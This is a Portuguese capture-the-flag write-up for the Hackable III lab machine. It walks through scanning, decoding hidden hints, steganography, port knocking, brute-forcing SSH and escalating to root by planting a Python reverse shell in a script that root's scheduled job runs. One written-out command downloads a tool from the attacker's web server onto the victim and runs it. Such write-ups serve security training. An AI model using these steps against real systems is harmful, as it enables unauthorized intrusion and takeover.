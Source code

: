 <h2>Começamos com uma varredura simples com nmap e uma varredura por diretórios.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/1.JPG)

<h2>Lendo o código fonte, vemos uma mensagem do desenvolvedor para alguém - jubiscleudo - e mencionando sobre o port knocking, logo sabemos que tem algum serviço oculto. Também encontramos o caminho para uma página de login </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/2.JPG)

<h2>Analisando o arquivo robots.txt vemos que a pasta config não está permitada -> Disallow: /config
acessando ela temos um arquivo chamada 1.txt, usando o hashanalyser(https://www.tunnelsup.com/hash-analyzer/) sabemos que se trata de um base64, fazendo o decode temos o seguinte: 10000</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.1.JPG)


<h2>Procurando nos outros diretórios(/css) encontrei o 2.txt, se trata de um Brainfuck, pesquisando por decode brainfuck encontramos algumas opções e temos como resultado 4444.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.1.JPG)

<h2>Vemos uma wordlist na pasta backup que nos será útil mais tarde</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/5.JPG)


<h2>Percebendo que se trata de portas(10000,4444), vem a mente o port knocking, nota-se que por default ele vem com as portas 7000,8000,9000 (3 portas são necessárias), seguindo essa lógica temos apenas os valores 1 e 2, existem 3 formas de encontrar o 3 arquivo.</h2>

<h3>1° FORMA: Fazendo uma varredura por extensão(os 2 primeiros eram txt, o 3° não é! por isso sempre faça uma varredura "genérica")</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.1.JPG)


<h3>2° FORMA: Na varredura também podemos encontar um outro arquivo html(home.html), acessando ele e vendo a fonte vemos um comentário bem explícito que existe algum arquivo.jpg que temos que buscar, isso simplificaria muito a busca</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.1.JPG)


<h3>3° FORMA: Na página de login que encontramos anteriormente, tentando fazer login vemos que não acontece nada pois ainda está em desenvolvimento, porém vendo a fonte encontramos nosso 3.jpg lá!</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.3.JPG)


<h2>Abrindo o 3.jpg já percebe-se que se trata de esteganografia, usaremos o steghide, usando o info vemos que existe algo lá dentro, agora extraimos ele(ao pedir senha pode apenas apertar enter já que o arquivo não possui senha). Assim temos nossa última "senha: 65535"</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/7.JPG)


<h2>Usaremos o knock para "abrir" o serviço oculto, usando a mesma ordem das senhas 1-2-3, se trata de um ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/8.JPG)


<h2>Agora entra a wordlist que encontramos antes, como usuário temos o jubiscleudo, faremos um brute force e entraremos via ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/9.JPG)


<h2>A 1° flag está oculta, ls -la</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/10.JPG)



<h2>Dando uma olhada nos arquivos de /var/www/html conseguimos as credenciais para outro usuário</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/11.JPG)



<h2>Após fazer login no usuário hackable_3 executaremos o pspy - periodicamente  o root(UID=0) executado "python3 /scripts/to_hackable_3.py", indo até a pasta não existe o arquivo, então basta criarmos um arquivo com o mesmo caminho que será executado pelo root</h2> link pspy: encurtador.com.br/gkrx2

<h4>
atacante: python3 -m http.server
vítima: wget http://ip_kali:8000/pspy
	chmod +x
	./pspy
</h4>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/12.JPG)


<h2>Agora é hora da criatividade, o root está executando nosso arquivo python, no nosso caso queremos conseguir uma reverse shell, usei o de python https://shellgenerator.github.io </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/13.JPG)


<h2>Deixamos nosso netcat ouvindo e aguardamos o processo executa nosso arquivo</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/14.JPG)

